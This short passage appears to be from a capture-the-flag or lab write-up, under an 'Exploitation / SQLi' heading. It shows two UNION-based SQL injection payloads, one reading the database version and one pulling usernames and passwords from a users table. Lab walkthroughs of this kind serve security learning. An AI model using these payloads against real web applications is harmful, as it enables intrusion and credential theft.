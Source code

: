 # Exploitation

## SQLi

```sh
# payload 
10' union select 1,@@version,3,4,5,6-- -
```

![screenshot](/assets/images/streamio7.png)

```sh
# payload
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```
